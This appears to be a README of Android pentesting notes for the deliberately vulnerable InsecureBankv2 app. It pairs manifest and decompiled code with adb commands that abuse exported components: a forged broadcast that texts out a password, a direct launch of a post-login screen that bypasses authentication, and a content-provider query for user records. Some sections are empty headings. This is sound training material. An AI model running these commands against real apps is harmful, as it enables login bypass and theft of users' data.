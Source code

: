 - [Manifest](#Mainfest)
  - [Debug Mode](#Debug)
    [Java Debugger](#jdp)
  - [Backup](#Backup)
  - [External Storage](#External_Storage)
  - [Permissions](#Permissions)
- [Broadcast Receiver](#BroadcastReceiver)
  - [Broadcast Receiver Discription](#Broadcast_receiver_description)
  - [Exported Broadcast Receiver](#Exported_broadcast_receiver)
    - [Broadcast Receiver AndroidManifest declaration](#BR_AndroidManifest.xml)
    - [Broadcast Receiver method code implementation](#BR_method_code)
    - [ADB Broadcast Receiver exploitation](#adb_BR_exploitaion)
- [Activity](#Activity)
  - []()
  - []()
  - [Exported Activity Bypassing](#Exported_activity_bypassing)
    - [Manifset](#Manifset)
- [Intents](#Intents)
  - [Intent Sniffing](#Intent_sniffing)
    - [Intent AndroidManifest declaration](#Intent_AndroidManifest.xml)
    - [Intent method code implementation](#Intent_implementation)
    - [Create intent exploitation application](#Create_intent_exploitation_app)
- [Content Provider](#Content_provider)
  - [Content Provider Discription](#Content_Provider_Discription)
  - [Exported Content Provider](#Exported_content_provider)
    - [Content Provider AndroidManifest declaration](#CP_AndroidManifest.xml)
    - [Content Provider method code implementation](#CP_method_code)
    - [ADB Content Provider exploitation](#adb_CP_exploitaion)
- [Insecure Logging](#Insecure_Logging)
  - [logcat](#logcat)

# Manifest

## Debug
If an Application is marked as debuggable then an attacker can access the application’s data by assuming the privileges of that application
```
  adb shell
  run-as com.android.insecurebankv2 
```
### jdp

## Backup
------------------------------------------------------------------------------------------------------------------------
# BroadcastReceiver

## Broadcast_receiver_description
Broadcast receivers are designed to listen to system wide events called broadcasts (e.g. network activity, application updates, etc.) and then trigger something if the broadcast message matches the current parameters inside the Broadcast Receiver

## Exported_broadcast_receiver

### BR_AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
            <intent-filter>
                <action android:name="theBroadcast"/>
            </intent-filter>
        </receiver>
```
### BR_method_code
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                this.usernameBase64ByteString = new String(Base64.decode(settings.getString("EncryptedUsername", null), 0), "UTF-8");
                String decryptedPassword = new CryptoClass().aesDeccryptedString(settings.getString("superSecurePassword", null));
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else {
            System.out.println("Phone number is null");
        }
    }
```
### adb_BR_exploitaion
```
am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver –es phonenumber 0123456789 –es newpass Test_pass123!
```
-------------------------------------------------------------------------------------------------------------------------------
# Activity

## Exported_activity_bypassing

### Manifset
```
<activity android:label="@string/title_activity_post_login" 
android:name="com.android.insecurebankv2.PostLogin" android:exported="true"/>

Bypassing: adb shell am start -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
```
-------------------------------------------------------------------------------------------------------------------------------
# Intents

## Intent_sniffing

### Intent_AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
 <intent-filter>
      <action android:name="theBroadcast"/>
  </intent-filter>
</receiver>
```
### Intent_implementation
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {

private void broadcastChangepasswordSMS(String phoneNumber, String pass) {
        if (TextUtils.isEmpty(phoneNumber.toString().trim())) {
            System.out.println("Phone number Invalid.");
            return;
        }
        Intent smsIntent = new Intent();
        smsIntent.setAction("theBroadcast");
        smsIntent.putExtra("phonenumber", phoneNumber);
        smsIntent.putExtra("newpass", pass);
        sendBroadcast(smsIntent);
    }
```
### Create_intent_exploitation_app
-------------------------------------------------------------------------------------------------------------------------------
# Content_Provider

## Content_Provider_Discription
Content providers are used to share app data with other applications, which is normally stored inside a database or file.

## Exported_content_provider

### CP_AndroidManifest.xml
```
provider android:name="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:authorities="com.android.insecurebankv2.TrackUserContentProvider"/>
```
### CP_method_code
```
static final String URL = "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers";
static final String name = "name";
```
### adb_CP_exploitaion
```
content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers    
```
-------------------------------------------------------------------------------------------------------------------------------
# Insecure_Logging

## logcat
```
adb logcat | grep "$(adb shell ps | grep [app.package.name]  | awk '{print $2}')"
```
